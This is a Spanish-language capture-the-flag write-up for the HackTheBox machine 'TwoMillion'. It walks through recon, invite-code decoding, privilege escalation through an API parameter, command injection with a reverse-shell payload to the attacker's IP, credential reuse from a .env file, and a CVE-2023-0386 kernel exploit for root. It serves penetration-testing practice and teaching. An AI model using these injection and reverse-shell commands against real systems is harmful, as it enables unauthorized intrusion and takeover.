


# TwoMillion - HackTheBox

## Reconocimiento

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.129.248.123 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 63
```

```bash
nmap -sCV -p22,80 10.129.248.123

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.6 (protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-auth: 
| HTTP/1.1 401 UNAUTHORIZED\x0D
|_  Basic realm=Zentara
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Cambiamos el /etc/hosts para añadir la ip de la máquina y el dominio 2million.htb

```bash
gobuster dir -u http://2million.htb -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 162

```

Debemos conseguir hackear el codigo de invitación para poder crear un usuario, en http://2million.htb/invite al poner un código llama a la api /api/v1/invite/verify con el código y nos devuelve un json con el resultado.


```javascript
        $(document).ready(function() {
            $('#verifyForm').submit(function(e) {
                e.preventDefault();

                var code = $('#code').val();
                var formData = { "code": code };

                $.ajax({
                    type: "POST",
                    dataType: "json",
                    data: formData,
                    url: '/api/v1/invite/verify',
                    success: function(response) {
                        if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                            // Store the invite code in localStorage
                            localStorage.setItem('inviteCode', code);

                            window.location.href = '/register';
                        } else {
                            alert("Invalid invite code. Please try again.");
                        }
                    },
                    error: function(response) {
                        alert("An error occurred. Please try again.");
                    }
                });
            });
        });
```

No se como proseguir y solo puedo intentar con fuerza bruta, pero no se si hay alguna manera de conseguir el código de invitación sin tener que probar todos los posibles códigos.

```bash
wfuzz -c -X POST -b PHPSESSID=7g4hv7b67un71clfiboojtio4u -t 200 --hh 67 -z range,0-999999999999 -d 'code=FUZZ' http://2million.htb/api/v1/invite/verify
```

Esto es poco probable que funcione, ya que el código de invitación es muy largo y no hay manera de saber si es un número o una cadena alfanumérica.

Dentro de inviteapi.min.js vemos qinformación:

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

Vemos que hay dos funciones, una para verificar el código de invitación y otra para generar un código de invitación. La función makeInviteCode hace una petición a la api /api/v1/invite/how/to/generate, vamos a probar a hacer una petición a esa api para ver si nos devuelve un código de invitación.

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
```

```bash
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

Vemos que está encriptado con ROT13, vamos a desencriptarlo:

```bash
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Nos da este mensaje: "In order to generate the invite code, make a POST request to /api/v1/invite/generate". Vamos a hacer la petición:

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

```bash
{"0":200,"success":1,"data":{"code":"VzBESVgtS1EwTlEtMFhNSFItTUxBV0g=","format":"encoded"}}
```

Vemos que está en base64, vamos a decodificarlo:

```bash
echo "VzBESVgtS1EwTlEtMFhNSFItTUxBV0g=" | base64 -d ; echo
W0DIX-KQ0NQ-0XMHR-MLAWH
```

Y como vimos en el código, debemos ponernos en localStorage el código de invitación para poder registrarnos pues no nos deja escribir en ese campo.





Estamos dentro.

The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator

Vemos que al hacer hovering encontramos 2 endpoints, uno para hacer una petición a http://2million.htb/api/v1/user/vpn/generate y otro a http://2million.htb/api/v1/user/vpn/regenerate

Si vamos a http://2million.htb/api/v1 vemos los endpoints que hay:

```json
{"v1":{"user":{"GET":{"\/api\/v1":"Route List","\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation","\/api\/v1\/invite\/generate":"Generate invite code","\/api\/v1\/invite\/verify":"Verify invite code","\/api\/v1\/user\/auth":"Check if user is authenticated","\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration","\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration","\/api\/v1\/user\/vpn\/download":"Download OVPN file"},"POST":{"\/api\/v1\/user\/register":"Register a new user","\/api\/v1\/user\/login":"Login with existing user"}},"admin":{"GET":{"\/api\/v1\/admin\/auth":"Check if user is admin"},"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}}}
```

Vemos que si probamos a descargar la vpn de admin, no podremos porque no tenemos permisos, pero si vamos a http://2million.htb/api/v1/admin/auth nos dice que no somos admin, por lo que debemos encontrar una manera de elevar privilegios.

Vemos que hay un endpoint para actualizar la configuración de los usuarios, vamos a probar a hacer una petición a ese endpoint para ver si podemos cambiar nuestro rol a admin.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update -H "Content-Type: application/json" -d '{"role":"admin"}'
```

Esto no funciona, vamos a intentar crear un usuario con rol de admin, para ello vamos a hacer una petición a http://2million.htb/api/v1/user/register con el siguiente json:

```json
{
    "username": "admin",
    "password": "admin",
    "role": "admin"
}
```

```bash
curl -X POST http://2million.htb/api/v1/user/register -H "Content-Type: application/json" -d '{"username":"admin","password":"admin","role":"admin"}'
```

Como no se que campos son los que se pueden modificar, voy a intentar crear un usuario nuevo y ver los campos.

```bash
code=W0DIX-KQ0NQ-0XMHR-MLAWH&username=hola&email=hola%40hola.com&password=hola&password_confirmation=hola
```

Me da un error de que el código es inválido, por lo que debemos generar otro:

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

Despues de decodificarlo, es `7ON8R-KDSU6-GCLM5-2DYX2`.

Esto no nos ha funcionado, vamos a intentar interceptar la petición de configuración de usuario y ver que parámetros se envían, para ello vamos a usar burp suite.

```bash
PUT /api/v1/admin/settings/update HTTP/1.1

Host: 2million.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.9

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: PHPSESSID=bmaglcqit2m4viif1us27moe36

Upgrade-Insecure-Requests: 1

Priority: u=0, i

Content-Type: application/x-www-form-urlencoded

Content-Length: 0
```

```json
{"status":"danger","message":"Invalid content type."}
```

Le ponemos el content-type a application/json.

```bash
Content-Type: application/json
```

```json
{"status":"danger","message":"Missing parameter: email"}
```

Le ponemos el parámetro email.

```json
{"email":"a@a.com"}
```

```json
{"status":"danger","message":"Missing parameter: is_admin"}
```

Le ponemos el parámetro is_admin a true.

```json
{"email":"a@a.com","is_admin":true}
```

```json
{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}
```

```json
{"email":"a@a.com","is_admin":1}
```

```json
{"id":13,"username":"a","is_admin":1}
```

Ya tenemos el usuario con privilegios de administrador.

http://2million.htb/api/v1/admin/auth

```json
{"message":true}
```

Vamos a hacer un POST a http://2million.htb/api/v1/admin/vpn/generate:

Nos metemos a burp suite y hacemos un post con el content-type application/json

```
POST /api/v1/admin/vpn/generate HTTP/1.1

Host: 2million.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.9

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: PHPSESSID=bmaglcqit2m4viif1us27moe36

Upgrade-Insecure-Requests: 1

Priority: u=0, i

Content-Type: text/html

Content-Length: 0
```

Hacemos la petición curl

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Content-Type: application/json" -H "Cookie: PHPSESSID=bmaglcqit2m4viif1us27moe36"

{"status":"danger","message":"Missing parameter: username"}
```

Le añadimos el parámetro username con el valor de nuestro usuario.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Content-Type: application/json" -H "Cookie: PHPSESSID=bmaglcqit2m4viif1us27moe36" -d '{"username":"a"}'
```

De esta manera nos devuelve un archivo .ovpn que podemos usar para conectarnos a la vpn de la máquina.

With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell

Ahora podemos inyectar comandos en el endpoint de generación de VPN de administrador, lo que nos permite obtener una shell del sistema.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Content-Type: application/json" -H "Cookie: PHPSESSID=bmaglcqit2m4viif1us27moe36" -d '{"username":"a; bash -c \"bash -i >& /dev/tcp/10.10.15.71/443 0>&1\""}'
```

```bash
nc -lvnp 443
```

POR FIN entablamos reverse shell como www-data.

## Escalada de privilegios

Vamos a hacer un tratamiento de la TTY:

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Vemos en /var/www/html/.env 

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

```bash
ss -tunlp
127.0.0.1:3306
```

Es una base de datos mysql según el puerto.

```bash
mysql -h127.0.0.1 -u admin -p
```

```bash
MariaDB [(none)]> use htb_prod
MariaDB [htb_prod]> show tables;
+--------------------+
| Tables_in_htb_prod |
+--------------------+
| invite_codes       |
| users              |
+--------------------+
```

No encontramos nada interesante, probamos a cambiar al usuario admin con las credenciales que encontramos en el .env y logramos la primera flag.

```bash
id
uid=1000(admin) gid=1000(admin) groups=1000(admin)

sudo -l
[sudo] password for admin: 
Sorry, user admin may not run sudo on localhost.

lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 22.04.2 LTS
Release:	22.04
Codename:	jammy

uname -a
Linux 2million 5.15.70-051570-generic
```

Vemos que es una versión de Ubuntu 22.04.2 LTS con kernel 5.15.70, vamos a buscar exploits para esta versión de kernel y vemos este repo: https://github.com/sxlmnwb/CVE-2023-0386

Necesitamos 2 sesiones por lo que vamos a meternos por ssh con el usuario admin.

Tras compilar el exploit con `make` ejecutamos en una terminal `./fuse ./ovlcap/lower ./gc` y en otra `./exp` y nos da una shell como root.

```bash
id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

Nos metems a /root y leemos la flag de root.